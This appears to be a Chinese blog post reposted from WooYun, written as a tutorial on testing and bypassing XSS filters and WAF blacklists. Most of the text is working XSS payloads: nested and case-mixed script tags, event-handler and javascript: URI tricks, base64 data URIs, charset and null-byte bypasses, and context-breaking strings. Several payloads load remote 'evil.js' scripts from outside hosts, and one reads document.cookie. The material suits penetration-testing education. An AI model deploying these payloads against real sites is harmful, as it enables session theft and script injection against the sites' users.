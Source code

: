 ```yaml
---
layout:     post
title:      Bypass xss 过滤的测试方法
date: 2014-09-15
tag: xss
description:
---
```

#### 0x00 背景

本文来自于《Modern Web Application Firewalls Fingerprinting and Bypassing XSS Filters》其中的bypass xss过滤的部分，前面有根据WAF特征确定是哪个WAF的测试方法给略过了，重点来看一下后面绕xss的一些基本的测试流程，虽说是绕WAF的，但这里还是根据WAF中的正则缺陷来绕过测试方法，并不是协议上问题，所以呢，基本可以通用于其他xss过滤的场景。方便新手们比较快速的了解到测试xss的一些基本的方法。

#### 0x01 Bypassing黑名单

大多数的场所是用的黑名单来做过滤器的，有三种方式绕过黑名单的测试：

- 1、暴力测试（输入大量的payload，看返回结果）
- 2、根据正则推算
- 3、利用浏览器bug

- 1)尝试插入比较正常的HTML标签，例如：<b>，<i>，<u>来看一下返回页面的情况是怎样的，是否被HTML编码了，或者标签被过滤了。

- 2)尝试插入不闭合的标签，例如：<b，<i，<u，<marquee然后看一下返回响应，是否对开放的标签也有过滤。

- 3)然后测试几个XSS的payload，基本所有的xss过滤器都会进行过滤的：
    ```
    <script>alert(1);</script>
    <script>prompt(1);</script>
    <script>confirm(1);</script>
    <scriptsrc="http://rhainfosec.com/evil.js">
    ```
看返回响应，是过滤的全部，还是只过滤了部分，是否还留下了alert,prompt,confirm字符，再尝试大小写的组合：
```
<scRiPt>alert(1);</scrIPt>
```
4)如果过滤器仅仅是把<script>和</script>标签过滤掉，那么可以用
```
<scr<script>ipt>alert(1)</scr<script>ipt>
```
的方式来绕过，这样当<script>标签被过滤掉，剩下的组合起来刚好形成一个完整的payload。

5)用<a href标签来测试，看返回响应
```
<a href="http://www.google.com">Clickme</a>
```
<a标签是否被过滤 href是否被过滤 href里的数据是否被过滤

如果没有数据被过滤，插入javascript协议看看：
```
<a href="javascript:alert(1)">Clickme</a>
```
是否返回错误 javascript的整个协议内容是否都被过滤掉，还是只过滤了javascript字符 尝试下大小写转换

继续测试事件触发执行javascript：
```
<a href="rhainfosec.com" onmouseover=alert(1)>ClickHere</a>
```
看onmouseover事件是否被过滤。测试一个无效的事件，看过滤规则：
```
<a href="rhainfosec.com" onclimbatree=alert(1)>ClickHere</a>
```
是完整的返回了呢，还是跟onmouseover一样被干掉了。

如果是完整的返回的话呢，那么意味着，做了事件的黑名单，但是在HTML5中，有超过150种的方式来执行javascript代码的事件测试一个很少见的事件：
```
<body/onhashchange=alert(1)><a href=#>clickit
```
测试其他标签

接下来测试其他的标签跟属性

Src属性
```
<img src=x onerror=prompt(1);>
<img/src=aaa.jpg onerror=prompt(1);>
<video src=x onerror=prompt(1);>
<audio src=x onerror=prompt(1);>
```
iframe标签
```
<iframe src="javascript:alert(2)">
<iframe/src="data:text/html;	base64
,PGJvZHkgb25sb2FkPWFsZXJ0KDEpPg==">
```

embed标签
```
<embed/src=//goo.gl/nlX0P>
```

action属性

利用<form，<isindex等标签中的action属性执行javascript
```
<form action="Javascript:alert(1)"><input type=submit>
<isindex action="javascript:alert(1)" type=image>
<isindex action=j	a	vas	c	r	ipt:alert(1) type=image>
<isindex action=data:text/html, type=image>
<formaction='data:text/html,<script>alert(1)</script>'><button>CLICK
```

formaction属性
```
<isindexformaction="javascript:alert(1)" type=image>
<input type="image" formaction=JaVaScript:alert(0)>
<form><button formaction=javascript:alert(1)>CLICKME
```

background属性
```
<table background=javascript:alert(1)></table> // 在Opera 10.5和IE6上有效
```
poster属性
```
<video poster=javascript:alert(1)//></video> // Opera 10.5以下有效
```
data属性
```
<object data="data:text/html;base64,PHNjcmlwdD5hbGVydCgiSGVsbG8iKTs8L3NjcmlwdD4=">
<object/data=//goo.gl/nlX0P?
```
code属性
```
<applet code="javascript:confirm(document.cookie);"> // Firefox有效
<embed code="http://businessinfo.co.uk/labs/xss/xss.swf" allowscriptaccess=always>
<svg/onload=prompt(1);>
<marquee/onstart=confirm(2)>/
<body onload=prompt(1);>
<select autofocus onfocus=alert(1)>
<textarea autofocus onfocus=alert(1)>
<keygen autofocus onfocus=alert(1)>
<video><source onerror="javascript:alert(1)">
```
最短的测试向量
```
<q/oncut=open()>
<q/oncut=alert(1)>//在限制长度的地方很有效
<marquee<marquee/onstart=confirm(2)>/onstart=confirm(1)>
<bodylanguage=vbsonload=alert-1//IE8有效
<command onmouseover
="\x6A\x61\x76\x61\x53\x43\x52\x49\x50\x54\x26\x63\x6F\x6C\x6F\x6E\x3B\x63\x6F\x6E\x6 6\x69\x72\x6D\x26\x6C\x70\x61\x72\x3B\x31\x26\x72\x70\x61\x72\x3B">Save</command> //IE8有效
```

过滤括号的情况下

当括号被过滤的时候可以使用throw来绕过
```
<a onmouseover="javascript:window.onerror=alert;throw 1>
<img src=x onerror="javascript:window.onerror=alert;throw 1">
```

以上两个测试向量在Chrome跟IE在上面会出现一个“uncaught”的错误，可以用以下的向量：
```
<body/onload=javascript:window.onerror=eval;throw'=alert\x281\x29';>
```
expression属性
```
<img style="xss:expression(alert(0))"> // IE7以下
<div style="color:rgb(''&#0;x:expression(alert(1))"></div> // IE7以下
<style>#test{x:expression(alert(/XSS/))}</style> // IE7以下
```
location属性
```
<a onmouseover=location='javascript:alert(1)'>click
<body onfocus="loaction='javascript:alert(1)'">123
```
其他的一些payload
```
<meta http-equiv="refresh" content="0;url=//goo.gl/nlX0P">
<meta http-equiv="refresh" content="0;javascript:alert(1)"/>
<svg xmlns="http://www.w3.org/2000/svg"><g onload="javascript:\u0061lert(1);"></g></svg>
<svg xmlns:xlink="http://www.w3.org/1999/xlink"><a><circle r=100 /><animate attributeName="xlink:href" values=";javascript:alert(1)" begin="0s" dur="0.1s" fill="freeze"/>
<svg><![CDATA[><imagexlink:href="]]><img/src=xx:xonerror=alert(2)//"></svg>
<meta content="
 1
;JAVASCRIPT: alert(1)" http-equiv="refresh"/>
<math><a xlink:href="//jsfiddle.net/t846h/">click
<img src=1 onerror="s=document.createElement('script');s.src='//7sbs9y.com1.z0.glb.clouddn.com/evil.js';document.body.appendChild(s);"
```
当= ( ) ; :被过滤时
```
<svg><script>alert(/1/)</script> // 通杀所有浏览器
```
opera中可以不闭合
```
<svg><script>alert( 1) // Opera可查
```
很多情况下WAF会实体编码用户的输入数据，

javascript是一个很灵活的语言，可以使用很多编码，比如十六进制，Unicode和HTML。但是也对这些编码可以用在哪个位置有规定：
```
href=
action=
formaction=
location=
on*=
name=
background=
poster=
src=
code=
```
支持的编码方式：HTML，八进制，十进制，十六进制和Unicode

data=
支持的编码：base64

基于上下文的过滤

WAF最大的问题，在于不知道输出的位置的上下文，导致根据具体环境可以绕过。

输入在属性里
```
<input value="XSStest" type=text>
```
可控位置为XSStest，可以使用
```
"><img src=x onerror=prompt(0);>
```
如果< >被过滤的话可以换成
```
" autofocus onfocus=alert(1)//
```
同样还有很多其他的payload：
```
"onmouseover=" prompt(0)x="
"onfocusin=alert(1) autofocusx="
" onfocusout=alert(1) autofocus x="
"onblur=alert(1) autofocusa="
```
输入在script标签中
```
<script>
Var x="Input";
</script>
```
可控位置在Input，可以闭合script标签插入代码，但是同样我们仅仅闭合双引号就可以执行js代码了
```
";alert(1)//
```
最终结果就是
```
<script>
Var x="";alert(1)//
</script>
```
非常规的事件监听
```
";document.body.addEventListener("DOMActivate",alert(1))//
";document.body.addEventListener("DOMActivate",prompt(1))//
";document.body.addEventListener("DOMActivate",confirm(1))//
```
下面是一些相同的类：
```
DOMAttrModified
DOMCharacterDataModified
DOMFocusIn
DOMFocusOut
DOMMouseScroll
DOMNodeInserted
DOMNodeInsertedIntoDocument
DOMNodeRemoved
DOMNodeRemovedFromDocument
DOMSubtreeModified
```

HREF内容可控
```
<a href="Userinput">Click</a>
```

可控的是Userinput那里我们需要做的只是把javascript代码输入就好了：
```
javascript:alert(1)//
```
最后组合为：
```
<a href="javascript:alert(1)//">Click</a>
```
使用HTML实体URL编码绕过黑名单，href里会自动实体解码，如果都失败了，可以尝试使用vbscript在IE10以下都有效，或者使用data协议。

JavaScript变换

使用javascript协议时可使用的例子：
```
javascript:alert(1)
javaSCRIPT:alert(1)
JaVaScRipT:alert(1)
javas	cript:\u0061lert(1);
javascript:\u0061lert(1)
javascript:alert(document.cookie)
```
Vbscript变换
```
vbscript:alert(1);
vbscript:alert(1);
vbscr	ipt:alert(1)"
```
Data URl
```
data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg==
```
当你的输入会在encodeURIComponent当中显示出来的时候，很容易插入xss代码了

```encodeURIComponent('userinput')```

userinput处可控，测试代码：
```
-alert(1)-
-prompt(1)-
-confirm(1)-
```
最终结果：
```
encodeURIComponent("-alert(1)-")
encodeURIComponent("-prompt(1)-")
```
SVG标签

当返回结果在svg标签中的时候，会有一个特性
```
<svg><script>varmyvar="YourInput";</script></svg>
```
YourInput可控，输入
```
www.site.com/test.php?var=text";alert(1)//
```
如果把"编码一些他仍然能够执行:
```
<svg><script>varmyvar="text";alert(1)//";</script></svg>
```
浏览器bug

字符集的bug在IE中出现过很多次，第一个就是UTF-7，但是这个只在之前的版本中可用，现在讨论一个在现在的浏览器当中可以执行的javascript。

http://xsst.sinaapp.com/utf-32-1.php?charset=utf-8&v=XSS
这个页面当中我们可控当前页面的字符集，当我们常规的测试时：

http://xsst.sinaapp.com/utf-32-1.php?charset=utf-8&v="><img src=x onerror=prompt(0);>
返回结果可以看到双引号被编码了：
```
<html>
<meta charset="utf-8"></meta>
<body>
<input type="text" value=""><img src=x onerror=prompt(0);>"></input>
</body>
</html>
设置字符集为UTF-32：

http://xsst.sinaapp.com/utf-32-1.php?charset=utf-32&v=%E2%88%80%E3%B8%80%E3%B0%80script%E3%B8%80alert(1)%E3%B0%80/script%E3%B8%80
```
上面这个在IE9及以下版本可以执行成功。

利用0字节绕过：
```
<scri%00pt>alert(1);</scri%00pt>
<scri\x00pt>alert(1);</scri%00pt>
<s%00c%00r%00%00ip%00t>confirm(0);</s%00c%00r%00%00ip%00t>
```
在IE9及以下版本有效。

其他等等一系列浏览器特性的XSS可以参考以下文章：

http://drops.wooyun.org/tips/147

增加了一个比较好玩的 payload :
```
<img src=1 onerror="s=document.createElement('script');s.src='//7sbs9y.com1.z0.glb.clouddn.com/evil.js';document.body.appendChild(s);"
```
再新增了一个：
```
<awesome id="lol" onfocus="alert(1)" tabindex=0>
```
通过这个技巧可以在任何标签（包括未知标签）内实现无需交互的XSS攻击（在Firefox以外的浏览器有效）

#### 0x02 总结

本文主要是一个测试XSS的思路流程，并没有把所有的payload写全，其实也没有人能够写全，只是列了一个大体的框架，大家实际在寻找的过程中可以不断慢慢的根据这种思路补充自己的payload，想必呢，一定会有很大的进步的！~



原文 http://drops.wooyun.org/tips/845  乌云上的老文章了，因为有时候一些记不住，转载过来只为学习使用

另外推荐一篇整理的也不错 http://insight-labs.org/?p=533
